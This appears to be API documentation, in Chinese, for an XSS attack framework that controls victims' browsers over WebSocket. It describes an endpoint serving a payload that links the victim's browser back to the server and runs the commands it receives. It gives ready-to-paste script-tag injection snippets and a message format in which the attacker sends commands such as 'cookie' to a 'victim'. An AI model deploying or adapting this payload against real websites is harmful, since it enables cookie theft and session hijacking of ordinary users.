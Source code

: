 ### 获取 JavaScript 载荷
```http
GET /xss.js
```

**功能:** 获取用于 XSS 注入的 JavaScript 载荷代码

**响应:** 返回自动连接到服务器的 JavaScript 代码

**载荷功能:**
- 🔗 自动建立 WebSocket 连接
- 🎭 识别为靶机角色 (victim)
- 💓 定期发送心跳保持连接
- 📡 接收并执行来自服务器的命令

**使用方式:**
```html
<!-- 直接注入 -->
<script src="http://localhost:8088/xss.js"></script>

<!-- 或通过 JavaScript -->
<script>
document.write('<script src="http://localhost:8088/xss.js"><\/script>');
</script>
```

---

## 🔌 WebSocket 消息格式

### 消息结构
```json
{
  "type": "command|result|heartbeat|welcome",
  "from": "client_id",
  "to": "target_id",
  "data": {},
  "timestamp": 1642680000
}
```

**字段说明:**
- `type` (string): 消息类型
  - `"command"` - 命令消息
  - `"result"` - 结果消息
  - `"heartbeat"` - 心跳消息
  - `"welcome"` - 欢迎消息
- `from` (string): 发送方客户端ID
- `to` (string): 目标客户端ID (可选)
- `data` (object): 消息数据
- `timestamp` (number): Unix时间戳

### 命令消息 (攻击者 → 靶机)
```json
{
  "type": "command",
  "from": "attacker_123",
  "to": "victim_456",
  "data": {
    "command": "cookie",
    "args": {}
  },
  "timestamp": 1642680000
}
```
